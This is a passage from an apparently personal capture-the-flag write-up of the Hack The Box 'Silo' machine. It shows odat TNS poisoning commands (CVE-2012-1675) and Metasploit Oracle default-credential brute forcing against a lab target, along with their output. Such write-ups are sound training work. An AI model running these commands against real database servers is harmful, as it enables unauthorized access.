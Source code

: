 
There are two valid SIDs, `XE` and `XEXDB`. The port which is used by the service is the default port, so I do not need to specify the port:

```bash
┌──(user㉿KaliVM)-[/tools/odat]
└─$ python3 odat.py tnspoison -s silo.htb -d XE
11:31:48 CRITICAL -: An operation on this module must be chosen thanks to one of 
these options: --test-module, --poison;
```

To test the module, I use the --test-module flag:

```bash
┌──(user㉿KaliVM)-[/tools/odat]
└─$ python3 odat.py tnspoison -s silo.htb -d XE --test-module

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning
```

This means that the target is vulnerable, I try to exploit it (`--poison` flag):

```bash
┌──(user㉿KaliVM)-[/tools/odat]
└─$ python3 odat.py tnspoison -s silo.htb  -d XE  --poison     

[1] (10.10.10.82:1521): Local proxy on port 1522 and TNS poisoning attack to 10.10.10.82:1521 are starting. Waiting for connections...
```

I waited a few minutes, but nothing happened. I found a metasploit module that can brute force the login credentials. I know I know, metasploit and OSCP, but I think there is no other way around this (for my skill level). So I use the module:

```bash
msf6 > use admin/oracle/oracle_login
msf6 auxiliary(admin/oracle/oracle_login) > options

Module options (auxiliary/admin/oracle/oracle_login):

   Name     Current Setting                                                              Required  Description
   ----     ---------------                                                              --------  -----------
   CSVFILE  /usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv  no        The file that contains a list of default accounts.
   RHOST                                                                                 yes       The Oracle host.
   RPORT    1521                                                                         yes       The TNS port.
   SID      ORCL                                                                         yes       The sid to authenticate with.

msf6 auxiliary(admin/oracle/oracle_login) > set rhost silo.htb
rhost => silo.htb
msf6 auxiliary(admin/oracle/oracle_login) > set SID XE
SID => XE
```
